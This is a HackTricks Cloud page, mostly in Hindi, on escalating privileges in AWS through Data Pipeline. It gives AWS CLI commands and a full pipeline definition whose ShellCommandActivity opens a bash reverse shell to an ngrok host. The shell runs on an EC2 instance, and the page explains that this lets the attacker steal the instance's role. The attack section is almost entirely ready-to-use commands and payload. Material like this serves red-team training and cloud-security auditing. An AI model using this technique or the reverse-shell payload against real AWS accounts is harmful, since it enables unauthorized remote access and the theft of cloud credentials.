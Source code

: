 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

इन **अनुमतियों वाले उपयोगकर्ता एक डेटा पाइपलाइन बनाकर विशेषाधिकार बढ़ा सकते हैं** ताकि **नियुक्त भूमिका के अनुमतियों का उपयोग करके मनमाने आदेश निष्पादित कर सकें:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
पाइपलाइन निर्माण के बाद, हमलावर इसकी परिभाषा को अपडेट करता है ताकि विशिष्ट क्रियाएँ या संसाधन निर्माण को निर्धारित किया जा सके:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **भूमिका** को **datapipeline.amazonaws.com द्वारा ग्रहण करने योग्य** होना चाहिए और **लाइन 28** में भूमिका को **ec2.amazonaws.com द्वारा ग्रहण करने योग्य होना चाहिए जिसमें एक EC2 प्रोफ़ाइल इंस्टेंस हो**।

इसके अलावा, EC2 इंस्टेंस केवल उस भूमिका तक पहुंच रखेगा जो EC2 इंस्टेंस द्वारा ग्रहण की जा सकती है (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
The **pipeline definition file, crafted by the attacker, includes directives to execute commands** या AWS API के माध्यम से संसाधन बनाने के लिए, Data Pipeline की भूमिका अनुमतियों का लाभ उठाते हुए संभावित रूप से अतिरिक्त विशेषाधिकार प्राप्त करने के लिए।

**Potential Impact:** निर्दिष्ट ec2 सेवा भूमिका के लिए सीधे privesc।

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
